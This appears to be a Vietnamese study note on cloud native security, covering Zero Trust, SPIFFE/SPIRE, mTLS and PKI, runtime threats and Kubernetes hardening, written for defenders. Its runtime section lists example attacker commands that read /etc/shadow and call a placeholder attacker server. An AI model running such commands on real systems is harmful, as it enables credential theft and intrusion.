



# 1. Cloud Native Security

Cloud Native Security là mô hình bảo mật được thiết kế cho các ứng dụng sử dụng:

- Container: Docker, containerd
- Orchestration: Kubernetes
- Microservices: nhiều dịch vụ giao tiếp với nhau qua API
- Service Mesh: Istio, Linkerd
- CNI: Cilium, Calico, Kube-OVN
- CI/CD: Jenkins, GitLab CI, GitHub Actions
- Observability: Prometheus, Grafana, Loki

### 1.1. Sự khác biệt giữa Traditional Security và Cloud Native Security

Traditional Security - Mô hình bảo vệ tập trung vào ranh giới mạng, Firewall và vùng tin cậy nội bộ

Cloud Native Security - Bảo vệ theo Identity, Workload, API, Network Policy và Runtime

|Tiêu chí	|Traditional Security	|Cloud Native Security|
| :--- | :--- | :--- |
|Security Model	|Perimeter-based	|Zero Trust|
|Định danh	|IP, hostname	|Workload Identity|
|Giao tiếp	|Network ACL	|Identity + Policy|
|Encryption	|VPN, TLS	|mTLS giữa services|
|Firewall	|Network Firewall	|Network + Workload Firewall|
|Runtime	|Antivirus, HIDS	|Runtime Detection|
|Deployment	|Server-based	|Container/Kubernetes|
|Policy	|Tĩnh	|Dynamic, declarative|

### 1.2. Cloud Native Security Architecture

Có thể chia thành 6 lớp:



Điểm quan trọng: Các lớp này không hoạt động độc lập.

Ví dụ, khi một Pod bị xâm nhập:

1. Runtime Security phát hiện hành vi bất thường
2. Workload Identity xác định Pod nào đang thực hiện hành vi
3. Network Policy chặn kết nối sang các Pod khác
4. Zero Trust Policy ngăn truy cập tài nguyên không được cấp phép
5. SIEM nhận cảnh báo để phục vụ điều tra

# 2. Zero trust architecture

Zero Trust là mô hình bảo mật dựa trên nguyên tắc:

**Never Trust, Always Verify – Không mặc định tin tưởng, luôn xác minh**

Ví dụ về mô hình truyền thống: Trong mô hình truyền thống, một thiết bị hoặc máy chủ nằm trong mạng nội bộ thường được xem là đáng tin cậy nên nếu Application A nằm trong mạng nội bộ, hệ thống có thể cho phép nó truy cập Application B dựa trên IP hoặc subnet. Nếu Application A bị compromise, attacker có thể lợi dụng quyền truy cập nội bộ để tấn công Application B

Zero Trust thay đổi cách tiếp cận:

- Không tin tưởng chỉ vì một workload nằm trong mạng nội bộ
- Không tin tưởng chỉ vì một request đến từ IP hợp lệ
- Xác minh danh tính của từng workload
- Kiểm tra quyền truy cập trước khi cho phép
- Mã hóa kết nối
- Liên tục đánh giá trạng thái và chính sách bảo mật

### 2.1. Các nguyên tắc cốt lõi

|Nguyên tắc	|Ý nghĩa|
| :--- | :--- |
|Verify explicitly	|Xác minh danh tính và ngữ cảnh|
|Least privilege	|Chỉ cấp quyền tối thiểu|
|Assume breach	|Giả định hệ thống có thể đã bị xâm nhập|
|Micro-segmentation	|Chia nhỏ vùng giao tiếp|
|Continuous verification	|Liên tục đánh giá quyền truy cập|
|Strong authentication	|Xác thực mạnh|

### 2.2. Các thành phần trong Zero Trust

1. Policy Engine

Là thành phần đánh giá một request có được phép hay không

Ví dụ:

```
Source Identity: frontend
Destination: backend
Protocol: HTTPS
Port: 8443
Action: ALLOW
```

Một request khác:

```
Source Identity: frontend
Destination: database
Protocol: TCP
Port: 5432
Action: 
```

2. Policy Administrator

Thực thi quyết định của Policy Engine bằng cách cấu hình hệ thống bảo vệ

Ví dụ:

- Cập nhật Network Policy
- Cấp hoặc thu hồi quyền
- Cập nhật Authorization Policy
- Điều chỉnh cấu hình Service Mesh

3. Policy Enforcement Point (PEP)

Điểm thực thi chính sách

Ví dụ:

- Envoy Proxy
- Istio Sidecar
- Cilium eBPF datapath
- Kubernetes NetworkPolicy enforcement
- API Gateway

### 2.3. Zero Trust và các công nghệ triển khai

|Công nghệ	|Vai trò|
| :--- | :--- |
|Kubernetes RBAC	|Kiểm soát quyền Kubernetes API|
|NetworkPolicy	|Kiểm soát lưu lượng Pod|
|Cilium	|Lọc mạng L3-L7, identity-aware policy|
|Istio	|mTLS và Authorization Policy|
|SPIFFE/SPIRE	|Workload Identity|
|OPA	|Policy-based authorization|
|Kyverno	|Admission Policy|
|Falco	|Runtime Threat Detection|

# 3. Workload Identity

Workload Identity là cơ chế định danh một ứng dụng, service, container hoặc workload đang chạy trong hệ thống

Thay vì xác định workload bằng IP, hệ thống sử dụng danh tính để xác định chính xác thành phần nào đang giao tiếp

Đây là một trong những nền tảng quan trọng nhất của Zero Trust

**Tại sao cần Workload Identity?**

-> Ví dụ:

```
Pod A:
IP = 10.10.1.10

Pod B:
IP = 10.10.1.20

Pod C:
IP = 10.10.1.30
```

Giả sử Pod A được phép truy cập Database

Nếu hệ thống chỉ dựa vào IP: `ALLOW 10.10.1.10 → Database`

Khi Pod A bị xóa và Pod mới được tạo, IP có thể thay đổi hoặc thậm chí một workload khác có thể nhận lại IP cũ

Vì vậy, IP không phải là danh tính bền vững

Workload Identity giải quyết vấn đề: sử dụng SPIFFE ID

```
spiffe://example.org/ns/app/sa/frontend
spiffe://example.org/ns/app/sa/backend
spiffe://example.org/ns/data/sa/database
```

### 3.1. SPIFFE

SPIFFE (Secure Production Identity Framework for Everyone) là một tiêu chuẩn mở để định danh workload trong môi trường phân tán

SPIFFE cung cấp:

- Workload Identity
- Chuẩn định danh SPIFFE ID
- Chuẩn định dạng chứng chỉ X.509 SVID
- Chuẩn định dạng JWT-SVID
- Cơ chế cấp phát Identity

Ví dụ SPIFFE ID: `spiffe://vnptcloud.local/ns/production/sa/payment`

Cấu trúc:

|Thành phần	|Ý nghĩa|
| :--- | :--- |
|spiffe://	|Scheme|
|vnptcloud.local	|Trust Domain|
|ns/production	|Namespace|
|sa/payment	|Service Account|

SPIFFE ID không phải URL web thông thường, nó là định danh workload

### 3.2. SPIRE

SPIRE (SPIFFE Runtime Environment) là implementation giúp triển khai SPIFFE

SPIRE gồm hai thành phần chính:



### 3.3. SVID

SVID (SPIFFE Verifiable Identity Document) là bằng chứng định danh của workload

Có hai dạng phổ biến:

1. X.509-SVID

- Sử dụng chứng chỉ X.509
- Dùng trong mTLS
- Có public key và thông tin Identity
- Được CA ký

2. JWT-SVID

- Là JWT được ký
- Có thể sử dụng trong xác thực API
- Phù hợp với những trường hợp không dùng trực tiếp TLS
- Cần kiểm soát thời hạn và chống replay phù hợp

### 3.4. Quy trình cấp Workload Identity

Ví dụ Backend Pod khởi động:

1. Pod được Kubernetes tạo
2. SPIRE Agent xác minh node
3. SPIRE Agent xác minh workload dựa trên thuộc tính như Kubernetes namespace, ServiceAccount và các selector
4. SPIRE Server kiểm tra Registration Entry
5. SPIRE Server cho phép cấp SVID
6. Backend nhận X.509-SVID
7. Backend sử dụng Identity này để xác thực với các workload khác

**Điểm quan trọng:** Workload không được tự ý khai báo một Identity bất kỳ rồi được tin tưởng. Hệ thống phải xác minh bằng chứng về workload

### 3.5. Workload Identity khác Kubernetes ServiceAccount thế nào?

|Tiêu chí	|Kubernetes ServiceAccount	|SPIFFE Identity|
| :--- | :--- | :--- |
|Mục đích	|Định danh truy cập Kubernetes API	|Định danh workload nói chung|
|Phạm vi	|Kubernetes cluster	|Có thể liên kết nhiều môi trường|
|Credential	|JWT token	|X.509-SVID/JWT-SVID|
|mTLS	|Không tự cung cấp mTLS	|X.509-SVID hỗ trợ|
|Rotation	|Token rotation tùy cấu hình	|SVID có thời hạn, được cấp lại|
|Cross-cluster	|Cần cấu hình bổ sung	|Hỗ trợ trust domain federation|

Kubernetes ServiceAccount là một nguồn thông tin rất quan trọng để SPIRE xác minh workload, nhưng hai khái niệm không đồng nhất

# 4. mTLS VÀ PKI

### 4.1 TLS

TLS (Transport Layer Security) là giao thức bảo mật kết nối mạng

TLS cung cấp ba thuộc tính:

1. Confidentiality – Bảo mật nội dung
2. Integrity – Đảm bảo tính toàn vẹn
3. Authentication – Xác thực danh tính theo cơ chế chứng chỉ hoặc PSK

### 4.2. mTLS

mTLS (Mutual TLS) là cơ chế hai bên xác thực lẫn nhau bằng chứng chỉ

```
Client                       Server
  |                             |
  |------ ClientHello --------->|
  |<----- ServerHello ----------|
  |<----- Server Certificate ---|
  |------ Client Certificate -->|
  |                             |
  |------ CertificateVerify -->|
  |                             |
  |<----- Handshake Complete -->|
  |                             |
  |======= Encrypted Data ======|
```

Trong mTLS:

- Client xác minh Server
- Server xác minh Client
- Hai bên thiết lập khóa phiên
- Dữ liệu truyền được mã hóa

**TLS và mTLS khác nhau**

|Tiêu chí	|TLS thông thường	|mTLS|
| :--- | :--- | :--- |
|Server Certificate	|Có	|Có
|Client Certificate	|Không bắt buộc	|Có|
|Server Authentication	|Có	|Có|
|Client Authentication	|Có thể dùng cơ chế khác	|Bằng certificate|
|Use case	|HTTPS public website	|Microservices, service-to-service|

Ví dụ thực tế: `Frontend → Backend`

Nếu chỉ sử dụng HTTPS, Backend có thể xác thực certificate của chính Backend, nhưng chưa chắc xác minh được chính xác workload Frontend nào đang gọi

Với mTLS kết hợp Workload Identity, Backend có thể xác minh:

```
Source:
spiffe://vnptcloud.local/ns/app/sa/frontend

Destination:
spiffe://vnptcloud.local/ns/app/sa/backend
```

Sau đó áp dụng Authorization Policy

### 4.3. PKI

PKI (Public Key Infrastructure) là hạ tầng quản lý khóa công khai và chứng chỉ số

PKI cho phép:

- Phát hành chứng chỉ
- Xác minh danh tính
- Ký chứng chỉ
- Thu hồi chứng chỉ
- Quản lý vòng đời chứng chỉ
- Thiết lập quan hệ tin cậy

#### Các thành phần của PKI

|Thành phần	|Chức năng|
| :--- | :--- |
|Root CA	|CA gốc, điểm tin cậy cao nhất|
|Intermediate CA	|CA trung gian phát hành certificate|
|Certificate	|Chứng chỉ định danh|
|Public Key	|Khóa công khai|
|Private Key	|Khóa bí mật|
|CSR	|Yêu cầu cấp chứng chỉ|
|CRL	|Danh sách chứng chỉ bị thu hồi|
|OCSP	|Kiểm tra trạng thái chứng chỉ|

### 4.4. Quy trình phát hành Certificate

```
Workload
   |
Generate Private Key
   |
Generate CSR
   |
Send CSR to CA
   |
CA Validate Identity
   |
CA Sign Certificate
   |
Return Certificate
   |
Workload uses Certificate
```

Một certificate X.509 thường chứa:

- Subject
- Issuer
- Serial Number
- Public Key
- Validity Period
- Subject Alternative Name (SAN)
- Signature

Trong Cloud Native, SAN rất quan trọng vì SPIFFE ID có thể được biểu diễn dưới dạng URI SAN trong X.509-SVID

### 4.5. PKI trong Kubernetes

Kubernetes có thể sử dụng certificate cho:

- API Server
- Kubelet
- etcd
- Control Plane
- Admission Webhook

Nhưng cần phân biệt: Kubernetes PKI không đồng nghĩa với Service Mesh PKI

Ví dụ:

- Kubernetes CA có thể xác thực thành phần Control Plane
- Istio CA phát hành certificate cho workload trong Mesh
- SPIRE có thể phát hành SVID theo SPIFFE
- cert-manager có thể tự động hóa cấp phát certificate từ các Issuer

Các hệ thống này có thể tích hợp, nhưng không mặc định dùng chung một CA hoặc trust domain

### 4.6. Certificate Rotation

Certificate không nên tồn tại vĩnh viễn

Lợi ích:

- Giảm thời gian sử dụng nếu private key bị lộ
- Hạn chế rủi ro certificate hết hạn
- Tự động hóa quản lý credential

Các giải pháp thường dùng:

- SPIRE
- Istio
- cert-manager
- Vault PKI

# 5. Runtime security
 
Runtime Security là nhóm giải pháp bảo vệ và giám sát workload trong thời gian ứng dụng đang chạy

Điểm khác biệt quan trọng:

- Image Scanning kiểm tra image trước khi triển khai
- Admission Control kiểm tra workload trước khi được Kubernetes chấp nhận
- Runtime Security giám sát hành vi sau khi container đã chạy

Ví dụ: Một container được xây dựng từ image hợp lệ, không có lỗ hổng nghiêm trọng. Tuy nhiên, khi chạy, attacker khai thác ứng dụng và thực hiện:

```
whoami
cat /etc/shadow
curl http://attacker-server
```

Image Scanning không thể tự phát hiện đầy đủ hành vi này. Runtime Security có thể phát hiện những hành vi đáng ngờ dựa trên system call, process, file access và network activity

**Các đối tượng được bảo vệ:**

|Đối tượng	|Hành vi cần phát hiện|
| :--- | :--- |
|Process	|Chạy shell bất thường, reverse shell|
|Filesystem	|Đọc file nhạy cảm, sửa file hệ thống|
|Network	|Kết nối IP đáng ngờ, port bất thường|
|Privilege	|Escalation, sử dụng quyền root|
|Container	|Escape khỏi container|
|Kubernetes	|Truy cập API trái phép|
|Kernel	|Syscall bất thường, khai thác kernel|

### 5.1. Các hình thức tấn công Runtime phổ biến

1. Container Escape

Container Escape là hành vi attacker thoát khỏi ranh giới cô lập của container để truy cập host

Ví dụ:

```
Kubernetes Node
|
+-- Container A
|    |
|    +-- Attacker
|         |
|         +-- Exploit kernel/runtime
|                  |
|                  v
|             Host OS
|
+-- Container B
+-- Container C
```

Nguyên nhân có thể gồm:

- Kernel vulnerability
- Container runtime vulnerability
- Privileged container
- Mount các thư mục nhạy cảm của host
- Cấu hình Linux capabilities quá rộng
- Truy cập Docker/containerd socket

Biện pháp phòng chống:

- Không sử dụng privileged: true nếu không cần thiết
- Chạy container với non-root
- Giới hạn Linux capabilities
- Dùng seccomp
- Dùng AppArmor hoặc SELinux
- Không mount /var/run/docker.sock tùy tiện
- Vá lỗi kernel và container runtime

2. Privilege Escalation

Privilege Escalation là hành vi nâng quyền từ user có quyền thấp lên quyền cao hơn

Ví dụ:

```
Container User
      |
      v
    UID 1000
      |
      v
Privilege Escalation
      |
      v
    UID 0
```

Các dấu hiệu:

- Process bất thường chạy với UID 0
- Sử dụng sudo, su trái phép
- Thay đổi quyền file hệ thống
- Khai thác Linux capabilities
- Truy cập /proc hoặc namespace không phù hợp

3. Reverse Shell

Attacker có thể tạo kết nối ngược từ container ra ngoài:

```
Compromised Pod
      |
      | Outbound TCP
      v
Attacker Server
      |
      v
Remote Shell
```

Có thể phát hiện bằng:

- Network Monitoring
- Process Monitoring
- Egress Network Policy
- Runtime Detection

4. Cryptomining

Attacker sử dụng CPU/GPU của cluster để đào tiền mã hóa

Dấu hiệu:

- CPU tăng cao bất thường
- Process lạ
- Kết nối đến mining pool
- Container tạo nhiều thread
- Tải binary từ Internet

5. Kubernetes API Abuse

Nếu attacker chiếm được ServiceAccount token, họ có thể thử truy cập Kubernetes API

Ví dụ các hành vi nguy hiểm:

- Liệt kê Secrets
- Tạo Pod
- Sửa Deployment
- Tạo RoleBinding
- Đọc thông tin các Namespace khác

Đây là lý do cần kết hợp Kubernetes RBAC, Workload Identity, Audit Logging và Runtime Security

### 5.2. Runtime Security hoạt động như thế nào?

Có ba cách tiếp cận phổ biến

1. System Call Monitoring

Giám sát các system call của tiến trình:

- execve: thực thi chương trình
- openat: mở file
- connect: tạo kết nối
- mount: mount filesystem
- setuid: thay đổi UID
- ptrace: theo dõi hoặc can thiệp tiến trình khác

2. Kernel-level Monitoring

Giám sát hoạt động ở mức kernel bằng:

- eBPF
- Linux Audit
- LSM (Linux Security Modules)
- Tracepoints
- Kprobes

3. Behavioral Detection

Phát hiện dựa trên hành vi:

Ví dụ:

- Container bình thường: nginx → worker process → HTTP traffic
- Container bất thường: nginx → bash → curl → external IP

Nếu một container Web Server đột nhiên chạy Bash và kết nối tới địa chỉ bên ngoài, đó có thể là dấu hiệu bị xâm nhập

### 5.3. Các công cụ Runtime Security

1. Falco: 

Phát hiện hành vi bất thường dựa trên system call và rule. Có thể cảnh báo khi container chạy shell, truy cập file nhạy cảm hoặc thực hiện hành vi đáng ngờ

2. Cilium

Sử dụng eBPF cho Network Security, Identity-aware Policy, Network Visibility và một số khả năng phát hiện hành vi

3. Tracee

Thu thập và phân tích sự kiện Linux/eBPF nhằm phát hiện hành vi đáng ngờ trong runtime

4. Trivy

Kiểm tra lỗ hổng image, cấu hình Kubernetes, filesystem và một số loại secret

### 5.4. Defense in Depth cho Kubernetes

Nên xây dựng nhiều lớp giải pháp để đảm bảo Cluster an toàn:

|Lớp	|Giải pháp	|Mục tiêu|
| :--- | :--- | :--- |
|Source Code	|SAST, SCA	|Tìm lỗi trong mã và dependency|
|Image	|Trivy	|Quét image|
|Supply Chain	|Image Signing	|Xác minh nguồn gốc image|
|Admission	|Kyverno, Gatekeeper	|Chặn cấu hình nguy hiểm|
|Identity	|RBAC, SPIFFE	|Xác minh workload|
|Network	|Cilium, NetworkPolicy	|Chặn giao tiếp trái phép|
|Transport	|mTLS	|Mã hóa và xác thực hai chiều|
|Runtime	|Falco, Tracee	|Phát hiện hành vi tấn công|
|Monitoring	|Prometheus, Grafana, SIEM	|Theo dõi và phản ứng|

# 6. Tổng kết



### 6.1. So sánh các công nghệ

|Công nghệ	|Bảo vệ ở đâu?	|Chức năng chính|
| :--- | :--- | :--- |
|Zero Trust	|Kiến trúc tổng thể	|Không mặc định tin tưởng|
|SPIFFE	|Identity	|Định danh workload|
|SPIRE	|Identity infrastructure	|Cấp phát và xác minh SVID|
|PKI	|Certificate infrastructure	|Quản lý chứng chỉ|
|TLS	|Transport	|Mã hóa kết nối|
|mTLS	|Transport + Authentication	|Xác thực hai chiều|
|Istio	|Service communication	|mTLS, authorization, traffic|
|Cilium	|Network/Kernel	|Network security, eBPF|
|Falco	|Runtime	|Phát hiện hành vi bất thường|
|Trivy	|Build/Deployment	|Quét lỗ hổng và cấu hình|

### 6.2. Những điểm cần lưu ý khi triển khai Production

1. Identity Management

- Không sử dụng một ServiceAccount cho tất cả ứng dụng
- Không sử dụng credential dài hạn không cần thiết
- Tự động rotation certificate
- Kiểm soát Trust Domain
- Có quy trình thu hồi và thay thế credential
- Không cấp quyền Kubernetes API nếu workload không cần

2. mTLS và PKI

- Sử dụng CA phù hợp với trust boundary
- Bảo vệ private key
- Thiết lập thời hạn certificate hợp lý
- Theo dõi certificate sắp hết hạn
- Kiểm soát CA rotation
- Không bỏ qua xác minh certificate để sửa lỗi kết nối

3. Runtime Security

- Phát hiện container chạy shell bất thường
- Theo dõi privileged container
- Giám sát truy cập filesystem
- Phát hiện kết nối ra ngoài đáng ngờ
- Hạn chế capabilities
- Sử dụng seccomp và AppArmor/SELinux
- Có quy trình xử lý false positive

4. Kubernetes Hardening

- Bật RBAC
- Sử dụng Pod Security Standards
- Hạn chế quyền truy cập Secrets
- Không chạy container root nếu không cần
- Hạn chế hostPath
- Hạn chế hostNetwork và hostPID
- Thiết lập NetworkPolicy
- Bật Kubernetes Audit Logging
- Backup etcd và bảo vệ encryption key